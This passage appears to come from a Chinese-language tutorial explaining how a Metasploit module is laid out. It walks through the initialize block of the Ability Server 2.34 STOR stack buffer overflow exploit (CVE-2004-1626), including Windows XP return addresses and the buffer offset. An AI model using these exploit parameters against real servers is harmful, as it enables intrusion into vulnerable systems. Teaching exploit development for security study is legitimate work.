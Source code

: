+   描述该模块

+   让人们知道我们创建了这个模块

+   添加我们利用的漏洞的参考资料

+   选择一个默认的有效载荷

+   设置坏字符。

+   设置披露日期

+   目标及其返回地址（EIP偏移）

+   设置目标IP、端口的选项。如果需要，还有用户名和密码。

```
 def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'Ability Server 2.34 STOR Command Stack Buffer Overflow',
      'Description'     => %q{
        This module exploits a stack-based buffer overflow in Ability Server 2.34.
        Ability Server fails to check input size when parsing 'STOR' and 'APPE' commands,
        which leads to a stack based buffer overflow. This plugin uses the 'STOR' command.

        The vulnerability has been confirmed on version 2.34 and has also been reported
        in version 2.25 and 2.32\. Other versions may also be affected.},
      'License'         => MSF_LICENSE,
      'Author'          =>
        [
          'muts',            # Initial discovery
          'Dark Eagle',      # same as muts
          'Peter Osterberg', # Metasploit
          'Ruby (@Rubyfu)',  # Just explain the module
        ],
      'References'      =>
        [
          [ 'CVE', '2004-1626' ],
          [ 'OSVDB', '11030'],
          [ 'EDB', '588'],
          ['URL', 'http://rubyfu.net'] # Just explain the module
        ],
      'Platform'        => %w{ win },
      'Targets'        =>
        [
          [
            'Windows XP SP2 ENG',
            {
              #JMP ESP  (MFC42.dll. Addr remains unchanged until a patched SP3)
              'Ret' => 0x73E32ECF,
              'Offset' => 966
            }
          ],
          [
            'Windows XP SP3 ENG',
            {
              #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully patched)
              'Ret' => 0x7E429353,
              'Offset' => 966
            }
          ],
        ],
      'DefaultTarget'   => 0,
      'DisclosureDate' => 'Oct 22 2004'
    ))

```